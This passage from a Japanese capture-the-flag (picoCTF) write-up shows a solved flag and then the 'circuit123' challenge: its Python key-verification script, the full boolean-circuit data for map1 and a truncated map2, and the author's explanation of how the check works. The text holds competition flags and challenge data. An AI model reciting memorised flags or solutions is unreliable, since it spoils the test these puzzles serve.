            }
            System.arraycopy(update, 0, memory, index * 8, length);
        }

        void rotateRight(int index, int length, int d) {
            rotateLeft(index, length, length - d);
        }

        int length() {
            return memory.length / 8;
        }
    }
}
```

</details>

`picoCTF{gEt_y0Ur_sH1fT5_r1gHt_09962bc4f}`

# circuit123
なんとなくこの問題が一番好き。

> Can you crack the key to decrypt map2 for us? The key to map1 is 11443513758266689915

取り敢えず復号化ツールを読んでみる。

<details><summary>decrypt.py</summary>

```python
#!/usr/bin/python2

from hashlib import sha512
import sys

def verify(x, chalbox):
    length, gates, check = chalbox
    b = [(x >> i) & 1 for i in range(length)]
    for name, args in gates:
        if name == 'true':
            b.append(1)
        else:
            u1 = b[args[0][0]] ^ args[0][1]
            u2 = b[args[1][0]] ^ args[1][1]
            if name == 'or':
                b.append(u1 | u2)
            elif name == 'xor':
                b.append(u1 ^ u2)
    return b[check[0]] ^ check[1]
    
def dec(x, w):
    z = int(sha512(str(int(x))).hexdigest(), 16)
    return '{:x}'.format(w ^ z).decode('hex')

if __name__ == '__main__':
    if len(sys.argv) < 3:
        print 'Usage: ' + sys.argv[0] + ' <key> <map.txt>'
        print 'Example: Try Running ' + sys.argv[0] + ' 11443513758266689915 map1.txt'
        exit(1)
    with open(sys.argv[2], 'r') as f:
        cipher, chalbox = eval(f.read())
    
    key = int(sys.argv[1]) % (1 << chalbox[0])
    print 'Attempting to decrypt ' + sys.argv[2] + '...'
    if verify(key, chalbox):
        print 'Congrats the flag for ' + sys.argv[2] + ' is:', dec(key, cipher)
    else:
        print 'Wrong key for ' + sys.argv[2] + '.'
```

</details>

ざっくりと動作を説明するならば、与えられた秘密鍵を初期領域にバイナリとして格納した後に、それ以降の領域についてそれ以前の領域にセットされた値の`OR`や`XOR`を格納している。最後に、指定されたビットが立っているかどうかで秘密鍵の正当性を検証しているようだ。試しに鍵が与えられている`map1.txt`でもう少し詳しい動作を見てみよう。

<details><summary>map1.txt</summary>

```python
(1091562780682878452932647567206562803258945860781462102555439111325671293639822353361220777655154004326830877696329866178864341430343894025596404608627826L, (64, [('true', []), ('xor', [(0, False), (64, False)]), ('xor', [(65, False), (64, True)]), ('or', [(64, True), (64, False)]), ('or', [(0, True), (64, False)]), ('or', [(67, True), (68, True)]), ('or', [(0, True), (64, True)]), ('or', [(69, False), (70, True)]), ('xor', [(1, False), (64, False)]), ('xor', [(72, False), (71, False)]), ('or', [(64, True), (71, True)]), ('or', [(1, True), (71, True)]), ('or', [(74, True), (75, True)]), ('or', [(1, True), (64, True)]), ('or', [(76, False), (77, True)]), ('xor', [(2, False), (64, False)]), ('xor', [(79, False), (78, False)]), ('or', [(64, True), (78, True)]), ('or', [(2, True), (78, True)]), ('or', [(81, True), (82, True)]), ('or', [(2, True), (64, True)]), ('or', [(83, False), (84, True)]), ('xor', [(3, False), (64, True)]), ('xor', [(86, False), (85, False)]), ('or', [(64, False), (85, True)]), ('or', [(3, True), (85, True)]), ('or', [(88, True), (89, True)]), ('or', [(3, True), (64, False)]), ('or', [(90, False), (91, True)]), ('xor', [(4, False), (64, False)]), ('xor', [(93, False), (92, False)]), ('or', [(64, True), (92, True)]), ('or', [(4, True), (92, True)]), ('or', [(95, True), (96, True)]), ('or', [(4, True), (64, True)]), ('or', [(97, False), (98, True)]), ('xor', [(5, False), (64, True)]), ('xor', [(100, False), (99, False)]), ('or', [(64, False), (99, True)]), ('or', [(5, True), (99, True)]), ('or', [(102, True), (103, True)]), ('or', [(5, True), (64, False)]), ('or', [(104, False), (105, True)]), ('xor', [(6, False), (64, False)]), ('xor', [(107, False), (106, False)]), ('or', [(64, True), (106, True)]), ('or', [(6, True), (106, True)]), ('or', [(109, True), (110, True)]), ('or', [(6, True), (64, True)]), ('or', [(111, False), (112, True)]), ('xor', [(7, False), (64, False)]), ('xor', [(114, False), (113, False)]), ('or', [(64, True), (113, True)]), ('or', [(7, True), (113, True)]), ('or', [(116, True), (117, True)]), ('or', [(7, True), (64, True)]), ('or', [(118, False), (119, True)]), ('xor', [(8, False), (64, False)]), ('xor', [(121, False), (120, False)]), ('or', [(64, True), (120, True)]), ('or', [(8, True), (120, True)]), ('or', [(123, True), (124, True)]), ('or', [(8, True), (64, True)]), ('or', [(125, False), (126, True)]), ('xor', [(9, False), (64, False)]), ('xor', [(128, False), (127, False)]), ('or', [(64, True), (127, True)]), ('or', [(9, True), (127, True)]), ('or', [(130, True), (131, True)]), ('or', [(9, True), (64, True)]), ('or', [(132, False), (133, True)]), ('xor', [(10, False), (64, False)]), ('xor', [(135, False), (134, False)]), ('or', [(64, True), (134, True)]), ('or', [(10, True), (134, True)]), ('or', [(137, True), (138, True)]), ('or', [(10, True), (64, True)]), ('or', [(139, False), (140, True)]), ('xor', [(11, False), (64, True)]), ('xor', [(142, False), (141, False)]), ('or', [(64, False), (141, True)]), ('or', [(11, True), (141, True)]), ('or', [(144, True), (145, True)]), ('or', [(11, True), (64, False)]), ('or', [(146, False), (147, True)]), ('xor', [(12, False), (64, True)]), ('xor', [(149, False), (148, False)]), ('or', [(64, False), (148, True)]), ('or', [(12, True), (148, True)]), ('or', [(151, True), (152, True)]), ('or', [(12, True), (64, False)]), ('or', [(153, False), (154, True)]), ('xor', [(13, False), (64, False)]), ('xor', [(156, False), (155, False)]), ('or', [(64, True), (155, True)]), ('or', [(13, True), (155, True)]), ('or', [(158, True), (159, True)]), ('or', [(13, True), (64, True)]), ('or', [(160, False), (161, True)]), ('xor', [(14, False), (64, True)]), ('xor', [(163, False), (162, False)]), ('or', [(64, False), (162, True)]), ('or', [(14, True), (162, True)]), ('or', [(165, True), (166, True)]), ('or', [(14, True), (64, False)]), ('or', [(167, False), (168, True)]), ('xor', [(15, False), (64, True)]), ('xor', [(170, False), (169, False)]), ('or', [(64, False), (169, True)]), ('or', [(15, True), (169, True)]), ('or', [(172, True), (173, True)]), ('or', [(15, True), (64, False)]), ('or', [(174, False), (175, True)]), ('xor', [(16, False), (64, True)]), ('xor', [(177, False), (176, False)]), ('or', [(64, False), (176, True)]), ('or', [(16, True), (176, True)]), ('or', [(179, True), (180, True)]), ('or', [(16, True), (64, False)]), ('or', [(181, False), (182, True)]), ('xor', [(17, False), (64, True)]), ('xor', [(184, False), (183, False)]), ('or', [(64, False), (183, True)]), ('or', [(17, True), (183, True)]), ('or', [(186, True), (187, True)]), ('or', [(17, True), (64, False)]), ('or', [(188, False), (189, True)]), ('xor', [(18, False), (64, True)]), ('xor', [(191, False), (190, False)]), ('or', [(64, False), (190, True)]), ('or', [(18, True), (190, True)]), ('or', [(193, True), (194, True)]), ('or', [(18, True), (64, False)]), ('or', [(195, False), (196, True)]), ('xor', [(19, False), (64, False)]), ('xor', [(198, False), (197, False)]), ('or', [(64, True), (197, True)]), ('or', [(19, True), (197, True)]), ('or', [(200, True), (201, True)]), ('or', [(19, True), (64, True)]), ('or', [(202, False), (203, True)]), ('xor', [(20, False), (64, True)]), ('xor', [(205, False), (204, False)]), ('or', [(64, False), (204, True)]), ('or', [(20, True), (204, True)]), ('or', [(207, True), (208, True)]), ('or', [(20, True), (64, False)]), ('or', [(209, False), (210, True)]), ('xor', [(21, False), (64, False)]), ('xor', [(212, False), (211, False)]), ('or', [(64, True), (211, True)]), ('or', [(21, True), (211, True)]), ('or', [(214, True), (215, True)]), ('or', [(21, True), (64, True)]), ('or', [(216, False), (217, True)]), ('xor', [(22, False), (64, True)]), ('xor', [(219, False), (218, False)]), ('or', [(64, False), (218, True)]), ('or', [(22, True), (218, True)]), ('or', [(221, True), (222, True)]), ('or', [(22, True), (64, False)]), ('or', [(223, False), (224, True)]), ('xor', [(23, False), (64, False)]), ('xor', [(226, False), (225, False)]), ('or', [(64, True), (225, True)]), ('or', [(23, True), (225, True)]), ('or', [(228, True), (229, True)]), ('or', [(23, True), (64, True)]), ('or', [(230, False), (231, True)]), ('xor', [(24, False), (64, True)]), ('xor', [(233, False), (232, False)]), ('or', [(64, False), (232, True)]), ('or', [(24, True), (232, True)]), ('or', [(235, True), (236, True)]), ('or', [(24, True), (64, False)]), ('or', [(237, False), (238, True)]), ('xor', [(25, False), (64, False)]), ('xor', [(240, False), (239, False)]), ('or', [(64, True), (239, True)]), ('or', [(25, True), (239, True)]), ('or', [(242, True), (243, True)]), ('or', [(25, True), (64, True)]), ('or', [(244, False), (245, True)]), ('xor', [(26, False), (64, True)]), ('xor', [(247, False), (246, False)]), ('or', [(64, False), (246, True)]), ('or', [(26, True), (246, True)]), ('or', [(249, True), (250, True)]), ('or', [(26, True), (64, False)]), ('or', [(251, False), (252, True)]), ('xor', [(27, False), (64, True)]), ('xor', [(254, False), (253, False)]), ('or', [(64, False), (253, True)]), ('or', [(27, True), (253, True)]), ('or', [(256, True), (257, True)]), ('or', [(27, True), (64, False)]), ('or', [(258, False), (259, True)]), ('xor', [(28, False), (64, False)]), ('xor', [(261, False), (260, False)]), ('or', [(64, True), (260, True)]), ('or', [(28, True), (260, True)]), ('or', [(263, True), (264, True)]), ('or', [(28, True), (64, True)]), ('or', [(265, False), (266, True)]), ('xor', [(29, False), (64, True)]), ('xor', [(268, False), (267, False)]), ('or', [(64, False), (267, True)]), ('or', [(29, True), (267, True)]), ('or', [(270, True), (271, True)]), ('or', [(29, True), (64, False)]), ('or', [(272, False), (273, True)]), ('xor', [(30, False), (64, False)]), ('xor', [(275, False), (274, False)]), ('or', [(64, True), (274, True)]), ('or', [(30, True), (274, True)]), ('or', [(277, True), (278, True)]), ('or', [(30, True), (64, True)]), ('or', [(279, False), (280, True)]), ('xor', [(31, False), (64, True)]), ('xor', [(282, False), (281, False)]), ('or', [(64, False), (281, True)]), ('or', [(31, True), (281, True)]), ('or', [(284, True), (285, True)]), ('or', [(31, True), (64, False)]), ('or', [(286, False), (287, True)]), ('xor', [(32, False), (64, True)]), ('xor', [(289, False), (288, False)]), ('or', [(64, False), (288, True)]), ('or', [(32, True), (288, True)]), ('or', [(291, True), (292, True)]), ('or', [(32, True), (64, False)]), ('or', [(293, False), (294, True)]), ('xor', [(33, False), (64, False)]), ('xor', [(296, False), (295, False)]), ('or', [(64, True), (295, True)]), ('or', [(33, True), (295, True)]), ('or', [(298, True), (299, True)]), ('or', [(33, True), (64, True)]), ('or', [(300, False), (301, True)]), ('xor', [(34, False), (64, False)]), ('xor', [(303, False), (302, False)]), ('or', [(64, True), (302, True)]), ('or', [(34, True), (302, True)]), ('or', [(305, True), (306, True)]), ('or', [(34, True), (64, True)]), ('or', [(307, False), (308, True)]), ('xor', [(35, False), (64, False)]), ('xor', [(310, False), (309, False)]), ('or', [(64, True), (309, True)]), ('or', [(35, True), (309, True)]), ('or', [(312, True), (313, True)]), ('or', [(35, True), (64, True)]), ('or', [(314, False), (315, True)]), ('xor', [(36, False), (64, False)]), ('xor', [(317, False), (316, False)]), ('or', [(64, True), (316, True)]), ('or', [(36, True), (316, True)]), ('or', [(319, True), (320, True)]), ('or', [(36, True), (64, True)]), ('or', [(321, False), (322, True)]), ('xor', [(37, False), (64, True)]), ('xor', [(324, False), (323, False)]), ('or', [(64, False), (323, True)]), ('or', [(37, True), (323, True)]), ('or', [(326, True), (327, True)]), ('or', [(37, True), (64, False)]), ('or', [(328, False), (329, True)]), ('xor', [(38, False), (64, True)]), ('xor', [(331, False), (330, False)]), ('or', [(64, False), (330, True)]), ('or', [(38, True), (330, True)]), ('or', [(333, True), (334, True)]), ('or', [(38, True), (64, False)]), ('or', [(335, False), (336, True)]), ('xor', [(39, False), (64, False)]), ('xor', [(338, False), (337, False)]), ('or', [(64, True), (337, True)]), ('or', [(39, True), (337, True)]), ('or', [(340, True), (341, True)]), ('or', [(39, True), (64, True)]), ('or', [(342, False), (343, True)]), ('xor', [(40, False), (64, True)]), ('xor', [(345, False), (344, False)]), ('or', [(64, False), (344, True)]), ('or', [(40, True), (344, True)]), ('or', [(347, True), (348, True)]), ('or', [(40, True), (64, False)]), ('or', [(349, False), (350, True)]), ('xor', [(41, False), (64, True)]), ('xor', [(352, False), (351, False)]), ('or', [(64, False), (351, True)]), ('or', [(41, True), (351, True)]), ('or', [(354, True), (355, True)]), ('or', [(41, True), (64, False)]), ('or', [(356, False), (357, True)]), ('xor', [(42, False), (64, False)]), ('xor', [(359, False), (358, False)]), ('or', [(64, True), (358, True)]), ('or', [(42, True), (358, True)]), ('or', [(361, True), (362, True)]), ('or', [(42, True), (64, True)]), ('or', [(363, False), (364, True)]), ('xor', [(43, False), (64, True)]), ('xor', [(366, False), (365, False)]), ('or', [(64, False), (365, True)]), ('or', [(43, True), (365, True)]), ('or', [(368, True), (369, True)]), ('or', [(43, True), (64, False)]), ('or', [(370, False), (371, True)]), ('xor', [(44, False), (64, True)]), ('xor', [(373, False), (372, False)]), ('or', [(64, False), (372, True)]), ('or', [(44, True), (372, True)]), ('or', [(375, True), (376, True)]), ('or', [(44, True), (64, False)]), ('or', [(377, False), (378, True)]), ('xor', [(45, False), (64, False)]), ('xor', [(380, False), (379, False)]), ('or', [(64, True), (379, True)]), ('or', [(45, True), (379, True)]), ('or', [(382, True), (383, True)]), ('or', [(45, True), (64, True)]), ('or', [(384, False), (385, True)]), ('xor', [(46, False), (64, False)]), ('xor', [(387, False), (386, False)]), ('or', [(64, True), (386, True)]), ('or', [(46, True), (386, True)]), ('or', [(389, True), (390, True)]), ('or', [(46, True), (64, True)]), ('or', [(391, False), (392, True)]), ('xor', [(47, False), (64, True)]), ('xor', [(394, False), (393, False)]), ('or', [(64, False), (393, True)]), ('or', [(47, True), (393, True)]), ('or', [(396, True), (397, True)]), ('or', [(47, True), (64, False)]), ('or', [(398, False), (399, True)]), ('xor', [(48, False), (64, True)]), ('xor', [(401, False), (400, False)]), ('or', [(64, False), (400, True)]), ('or', [(48, True), (400, True)]), ('or', [(403, True), (404, True)]), ('or', [(48, True), (64, False)]), ('or', [(405, False), (406, True)]), ('xor', [(49, False), (64, True)]), ('xor', [(408, False), (407, False)]), ('or', [(64, False), (407, True)]), ('or', [(49, True), (407, True)]), ('or', [(410, True), (411, True)]), ('or', [(49, True), (64, False)]), ('or', [(412, False), (413, True)]), ('xor', [(50, False), (64, True)]), ('xor', [(415, False), (414, False)]), ('or', [(64, False), (414, True)]), ('or', [(50, True), (414, True)]), ('or', [(417, True), (418, True)]), ('or', [(50, True), (64, False)]), ('or', [(419, False), (420, True)]), ('xor', [(51, False), (64, False)]), ('xor', [(422, False), (421, False)]), ('or', [(64, True), (421, True)]), ('or', [(51, True), (421, True)]), ('or', [(424, True), (425, True)]), ('or', [(51, True), (64, True)]), ('or', [(426, False), (427, True)]), ('xor', [(52, False), (64, True)]), ('xor', [(429, False), (428, False)]), ('or', [(64, False), (428, True)]), ('or', [(52, True), (428, True)]), ('or', [(431, True), (432, True)]), ('or', [(52, True), (64, False)]), ('or', [(433, False), (434, True)]), ('xor', [(53, False), (64, False)]), ('xor', [(436, False), (435, False)]), ('or', [(64, True), (435, True)]), ('or', [(53, True), (435, True)]), ('or', [(438, True), (439, True)]), ('or', [(53, True), (64, True)]), ('or', [(440, False), (441, True)]), ('xor', [(54, False), (64, False)]), ('xor', [(443, False), (442, False)]), ('or', [(64, True), (442, True)]), ('or', [(54, True), (442, True)]), ('or', [(445, True), (446, True)]), ('or', [(54, True), (64, True)]), ('or', [(447, False), (448, True)]), ('xor', [(55, False), (64, True)]), ('xor', [(450, False), (449, False)]), ('or', [(64, False), (449, True)]), ('or', [(55, True), (449, True)]), ('or', [(452, True), (453, True)]), ('or', [(55, True), (64, False)]), ('or', [(454, False), (455, True)]), ('xor', [(56, False), (64, True)]), ('xor', [(457, False), (456, False)]), ('or', [(64, False), (456, True)]), ('or', [(56, True), (456, True)]), ('or', [(459, True), (460, True)]), ('or', [(56, True), (64, False)]), ('or', [(461, False), (462, True)]), ('xor', [(57, False), (64, False)]), ('xor', [(464, False), (463, False)]), ('or', [(64, True), (463, True)]), ('or', [(57, True), (463, True)]), ('or', [(466, True), (467, True)]), ('or', [(57, True), (64, True)]), ('or', [(468, False), (469, True)]), ('xor', [(58, False), (64, True)]), ('xor', [(471, False), (470, False)]), ('or', [(64, False), (470, True)]), ('or', [(58, True), (470, True)]), ('or', [(473, True), (474, True)]), ('or', [(58, True), (64, False)]), ('or', [(475, False), (476, True)]), ('xor', [(59, False), (64, False)]), ('xor', [(478, False), (477, False)]), ('or', [(64, True), (477, True)]), ('or', [(59, True), (477, True)]), ('or', [(480, True), (481, True)]), ('or', [(59, True), (64, True)]), ('or', [(482, False), (483, True)]), ('xor', [(60, False), (64, True)]), ('xor', [(485, False), (484, False)]), ('or', [(64, False), (484, True)]), ('or', [(60, True), (484, True)]), ('or', [(487, True), (488, True)]), ('or', [(60, True), (64, False)]), ('or', [(489, False), (490, True)]), ('xor', [(61, False), (64, True)]), ('xor', [(492, False), (491, False)]), ('or', [(64, False), (491, True)]), ('or', [(61, True), (491, True)]), ('or', [(494, True), (495, True)]), ('or', [(61, True), (64, False)]), ('or', [(496, False), (497, True)]), ('xor', [(62, False), (64, True)]), ('xor', [(499, False), (498, False)]), ('or', [(64, False), (498, True)]), ('or', [(62, True), (498, True)]), ('or', [(501, True), (502, True)]), ('or', [(62, True), (64, False)]), ('or', [(503, False), (504, True)]), ('xor', [(63, False), (64, False)]), ('xor', [(506, False), (505, False)]), ('or', [(66, False), (73, True)]), ('or', [(80, False), (87, False)]), ('or', [(508, False), (509, False)]), ('or', [(94, True), (101, False)]), ('or', [(108, True), (115, False)]), ('or', [(511, False), (512, False)]), ('or', [(510, False), (513, False)]), ('or', [(122, True), (129, False)]), ('or', [(136, False), (143, False)]), ('or', [(515, False), (516, False)]), ('or', [(150, True), (157, True)]), ('or', [(164, False), (171, False)]), ('or', [(518, False), (519, False)]), ('or', [(517, False), (520, False)]), ('or', [(514, False), (521, False)]), ('or', [(178, False), (185, False)]), ('or', [(192, False), (199, False)]), ('or', [(523, False), (524, False)]), ('or', [(206, True), (213, True)]), ('or', [(220, True), (227, False)]), ('or', [(526, False), (527, False)]), ('or', [(525, False), (528, False)]), ('or', [(234, False), (241, True)]), ('or', [(248, False), (255, False)]), ('or', [(530, False), (531, False)]), ('or', [(262, True), (269, False)]), ('or', [(276, True), (283, False)]), ('or', [(533, False), (534, False)]), ('or', [(532, False), (535, False)]), ('or', [(529, False), (536, False)]), ('or', [(522, False), (537, False)]), ('or', [(290, False), (297, False)]), ('or', [(304, False), (311, False)]), ('or', [(539, False), (540, False)]), ('or', [(318, False), (325, False)]), ('or', [(332, True), (339, True)]), ('or', [(542, False), (543, False)]), ('or', [(541, False), (544, False)]), ('or', [(346, True), (353, True)]), ('or', [(360, False), (367, True)]), ('or', [(546, False), (547, False)]), ('or', [(374, False), (381, True)]), ('or', [(388, True), (395, True)]), ('or', [(549, False), (550, False)]), ('or', [(548, False), (551, False)]), ('or', [(545, False), (552, False)]), ('or', [(402, True), (409, True)]), ('or', [(416, True), (423, False)]), ('or', [(554, False), (555, False)]), ('or', [(430, True), (437, True)]), ('or', [(444, False), (451, False)]), ('or', [(557, False), (558, False)]), ('or', [(556, False), (559, False)]), ('or', [(458, True), (465, False)]), ('or', [(472, False), (479, True)]), ('or', [(561, False), (562, False)]), ('or', [(486, False), (493, True)]), ('or', [(500, False), (507, False)]), ('or', [(564, False), (565, False)]), ('or', [(563, False), (566, False)]), ('or', [(560, False), (567, False)]), ('or', [(553, False), (568, False)]), ('or', [(538, False), (569, False)])], (570, True)))
```

</details>

既知の秘密鍵`11443513758266689915`を与えて実行すると、
```
Congrats the flag for map1.txt is: not_a_flag{Real_flag_will_be_loooooooonger_than_me}
```
と言われる。少しでも秘密鍵を変えると`Wrong key for map1.txt.`と言われるので、恐らく秘密鍵は一意に特定可能なんだろうなあというお気持ちになる。この正当性の条件分岐だが、`map`の最後にある`(570, True)`というタプルにより決定されるようだ。これはすなわち、`570`番目の論理値が`False`でないと正当ではないということを意味している。要するに、初期値をいい感じにして570番目の論理値を`False`にしてね問題。

<details><summary>map2.txt</summary>

```python
(11290419911155290710690302751351816427340816196576026120444648063369847565343076531411187044376577503480139343099182304342421923153437113486849423485713547L, (128, [('true', []), ('xor', [(0, False), (64, False)]), ('xor', [(129, False), (128, True)]), ('or', [(64, True), (128, False)]), ('or', [(0, True), (128, False)]), ('or', [(131, True), (132, True)]), ('or', [(0, True), (64, True)]), ('or', [(133, False), (134, True)]), ('xor', [(1, False), (65, False)]), ('xor', [(136, False), (135, False)]), ('or', [(65, True), (135, True)]), ('or', [(1, True), (135, True)]), ('or', [(138, True), (139, True)]), ('or', [(1, True), (65, True)]), ('or', [(140, False), (141, True)]), ('xor', [(2, False), (66, False)]), ('xor', [(143, False), (142, False)]), ('or', [(66, True), (142, True)]), ('or', [(2, True), (142, True)]), ('or', [(145, True), (146, True)]), ('or', [(2, True), (66, True)]), ('or', [(147, False), (148, True)]), ('xor', [(3, False), (67, False)]), ('xor', [(150, False), (149, False)]), ('or', [(67, True), (149, True)]), ('or', [(3, True), (149, True)]), ('or', [(152, True), (153, True)]), ('or', [(3, True), (67, True)]), ('or', [(154, False), (155, True)]), ('xor', [(4, False), (68, False)]), ('xor', [(157, False), (156, False)]), ('or', [(68, True), (156, True)]), ('or', [(4, True), (156, True)]), ('or', [(159, True), (160, True)]), ('or', [(4, True), (68, True)]), ('or', [(161, False), (162, True)]), ('xor', [(5, False), (69, False)]), ('xor', [(164, False), (163, False)]), ('or', [(69, True), (163, True)]), ('or', [(5, True), (163, True)]), ('or', [(166, True), (167, True)]), ('or', [(5, True), (69, True)]), ('or', [(168, False), (169, True)]), ('xor', [(6, False), (70, False)]), ('xor', [(171, False), (170, False)]), ('or', [(70, True), (170, True)]), ('or', [(6, True), (170, True)]), ('or', [(173, True), (174, True)]), ('or', [(6, True), (70, True)]), ('or', [(175, False), (176, True)]), ('xor', [(7, False), (71, False)]), ('xor', [(178, False), (177, False)]), ('or', [(71, True), (177, True)]), ('or', [(7, True), (177, True)]), ('or', [(180, True), (181, True)]), ('or', [(7, True), (71, True)]), ('or', [(182, False), (183, True)]), ('xor', [(8, False), (72, False)]), ('xor', [(185, False), (184, False)]), ('or', [(72, True), (184, True)]), ('or', [(8, True), (184, True)]), ('or', [(187, True), (188, True)]), ('or', [(8, True), (72, True)]), ('or', [(189, False), (190, True)]), ('xor', [(9, False), (73, False)]), ('xor', [(192, False), (191, False)]), ('or', [(73, True), (191, True)]), ('or', [(9, True), (191, True)]), ('or', [(194, True), (195, True)]), ('or', [(9, True), (73, True)]), ('or', [(196, False), (197, True)]), ('xor', [(10, False), (74, False)]), ('xor', [(199, False), (198, False)]), ('or', [(74, True), (198, True)]), ('or', [(10, True), (198, True)]), ('or', [(201, True), (202, True)]), ('or', [(10, True), (74, True)]), ('or', [(203, False), (204, True)]), ('xor', [(11, False), (75, False)]), ('xor', [(206, False), (205, False)]), ('or', [(75, True), (205, True)]), ('or', [(11, True), (205, True)]), ('or', [(208, True), (209, True)]), ('or', [(11, True), (75, True)]), ('or', [(210, False), (211, True)]), ('xor', [(12, False), (76, False)]), ('xor', [(213, False), (212, False)]), ('or', [(76, True), (212, True)]), ('or', [(12, True), (212, True)]), ('or', [(215, True), (216, True)]), ('or', [(12, True), (76, True)]), ('or', [(217, False), (218, True)]), ('xor', [(13, False), (77, False)]), ('xor', [(220, False), (219, False)]), ('or', [(77, True), (219, True)]), ('or', [(13, True), (219, True)]), ('or', [(222, True), (223, True)]), ('or', [(13, True), (77, True)]), ('or', [(224, False), (225, True)]), ('xor', [(14, False), (78, False)]), ('xor', [(227, False), (226, False)]), ('or', [(78, True), (226, True)]), ('or', [(14, True), (226, True)]), ('or', [(229, True), (230, True)]), ('or', [(14, True), (78, True)]), ('or', [(231, False), (232, True)]), ('xor', [(15, False), (79, False)]), ('xor', [(234, False), (233, False)]), ('or', [(79, True), (233, True)]), ('or', [(15, True), (233, True)]), ('or', [(236, True), (237, True)]), ('or', [(15, True), (79, True)]), ('or', [(238, False), (239, True)]), ('xor', [(16, False), (80, False)]), ('xor', [(241, False), (240, False)]), ('or', [(80, True), (240, True)]), ('or', [(16, True), (240, True)]), ('or', [(243, True), (244, True)]), ('or', [(16, True), (80, True)]), ('or', [(245, False), (246, True)]), ('xor', [(17, False), (81, False)]), ('xor', [(248, False), (247, False)]), ('or', [(81, True), (247, True)]), ('or', [(17, True), (247, True)]), ('or', [(250, True), (251, True)]), ('or', [(17, True), (81, True)]), ('or', [(252, False), (253, True)]), ('xor', [(18, False), (82, False)]), ('xor', [(255, False), (254, False)]), ('or', [(82, True), (254, True)]), ('or', [(18, True), (254, True)]), ('or', [(257, True), (258, True)]), ('or', [(18, True), (82, True)]), ('or', [(259, False), (260, True)]), ('xor', [(19, False), (83, False)]), ('xor', [(262, False), (261, False)]), ('or', [(83, True), (261, True)]), ('or', [(19, True), (261, True)]), ('or', [(264, True), (265, True)]), ('or', [(19, True), (83, True)]), ('or', [(266, False), (267, True)]), ('xor', [(20, False), (84, False)]), ('xor', [(269, False), (268, False)]), ('or', [(84, True), (268, True)]), ('or', [(20, True), (268, True)]), ('or', [(271, True), (272, True)]), ('or', [(20, True), (84, True)]), ('or', [(273, False), (274, True)]), ('xor', [(21, False), (85, False)]), ('xor', [(276, False), (275, False)]), ('or', [(85, True), (275, True)]), ('or', [(21, True), (275, True)]), ('or', [(278, True), (279, True)]), ('or', [(21, True), (85, True)]), ('or', [(280, False), (281, True)]), ('xor', [(22, False), (86, False)]), ('xor', [(283, False), (282, False)]), ('or', [(86, True), (282, True)]), ('or', [(22, True), (282, True)]), ('or', [(285, True), (286, True)]), ('or', [(22, True), (86, True)]), ('or', [(287, False), (288, True)]), ('xor', [(23, False), (87, False)]), ('xor', [(290, False), (289, False)]), ('or', [(87, True), (289, True)]), ('or', [(23, True), (289, True)]), ('or', [(292, True), (293, True)]), ('or', [(23, True), (87, True)]), ('or', [(294, False), (295, True)]), ('xor', [(24, False), (88, False)]), ('xor', [(297, False), (296, False)]), ('or', [(88, True), (296, True)]), ('or', [(24, True), (296, True)]), ('or', [(299, True), (300, True)]), ('or', [(24, True), (88, True)]), ('or', [(301, False), (302, True)]), ('xor', [(25, False), (89, False)]), ('xor', [(304, False), (303, False)]), ('or', [(89, True), (303, True)]), ('or', [(25, True), (303, True)]), ('or', [(306, True), (307, True)]), ('or', [(25, True), (89, True)]), ('or', [(308, False), (309, True)]), ('xor', [(26, False), (90, False)]), ('xor', [(311, False), (310, False)]), ('or', [(90, True), (310, True)]), ('or', [(26, True), (310, True)]), ('or', [(313, True), (314, True)]), ('or', [(26, True), (90, True)]), ('or', [(315, False), (316, True)]), ('xor', [(27, False), (91, False)]), ('xor', [(318, False), (317, False)]), ('or', [(91, True), (317, True)]), ('or', [(27, True), (317, True)]), ('or', [(320, True), (321, True)]), ('or', [(27, True), (91, True)]), ('or', [(322, False), (323, True)]), ('xor', [(28, False), (92, False)]), ('xor', [(325, False), (324, False)]), ('or', [(92, True), (324, True)]), ('or', [(28, True), (324, True)]), ('or', [(327, True), (328, True)]), ('or', [(28, True), (92, True)]), ('or', [(329, False), (330, True)]), ('xor', [(29, False), (93, False)]), ('xor', [(332, False), (331, False)]), ('or', [(93, True), (331, True)]), ('or', [(29, True), (331, True)]), ('or', [(334, True), (335, True)]), ('or', [(29, True), (93, True)]), ('or', [(336, False), (337, True)]), ('xor', [(30, False), (94, False)]), ('xor', [(339, False), (338, False)]), ('or', [(94, True), (338, True)]), ('or', [(30, True), (338, True)]), ('or', [(341, True), (342, True)]), ('or', [(30, True), (94, True)]), ('or', [(343, False), (344, True)]), ('xor', [(31, False), (95, False)]), ('xor', [(346, False), (345, False)]), ('or', [(95, True), (345, True)]), ('or', [(31, True), (345, True)]), ('or', [(348, True), (349, True)]), ('or', [(31, True), (95, True)]), ('or', [(350, False), (351, True)]), ('xor', [(32, False), (96, False)]), ('xor', [(353, False), (352, False)]), ('or', [(96, True), (352, True)]), ('or', [(32, True), (352, True)]), ('or', [(355, True), (356, True)]), ('or', [(32, True), (96, True)]), ('or', [(357, False), (358, True)]), ('xor', [(33, False), (97, False)]), ('xor', [(360, False), (359, False)]), ('or', [(97, True), (359, True)]), ('or', [(33, True), (359, True)]), ('or', [(362, True), (363, True)]), ('or', [(33, True), (97, True)]), ('or', [(364, False), (365, True)]), ('xor', [(34, False), (98, False)]), ('xor', [(367, False), (366, False)]), ('or', [(98, True), (366, True)]), ('or', [(34, True), (366, True)]), ('or', [(369, True), (370, True)]), ('or', [(34, True), (98, True)]), ('or', [(371, False), (372, True)]), ('xor', [(35, False), (99, False)]), ('xor', [(374, False), (373, False)]), ('or', [(99, True), (373, True)]), ('or', [(35, True), (373, True)]), ('or', [(376, True), (377, True)]), ('or', [(35, True), (99, True)]), ('or', [(378, False), (379, True)]), ('xor', [(36, False), (100, False)]), ('xor', [(381, False), (380, False)]), ('or', [(100, True), (380, True)]), ('or', [(36, True), (380, True)]), ('or', [(383, True), (384, True)]), ('or', [(36, True), (100, True)]), ('or', [(385, False), (386, True)]), ('xor', [(37, False), (101, False)]), ('xor', [(388, False), (387, False)]), ('or', [(101, True), (387, True)]), ('or', [(37, True), (387, True)]), ('or', [(390, True), (391, True)]), ('or', [(37, True), (101, True)]), ('or', [(392, False), (393, True)]), ('xor', [(38, False), (102, False)]), ('xor', [(395, False), (394, False)]), ('or', [(102, True), (394, True)]), ('or', [(38, True), (394, True)]), ('or', [(397, True), (398, True)]), ('or', [(38, True), (102, True)]), ('or', [(399, False), (400, True)]), ('xor', [(39, False), (103, False)]), ('xor', [(402, False), (401, False)]), ('or', [(103, True), (401, True)]), ('or', [(39, True), (401, True)]), ('or', [(404, True), (405, True)]), ('or', [(39, True), (103, True)]), ('or', [(406, False), (407, True)]), ('xor', [(40, False), (104, False)]), ('xor', 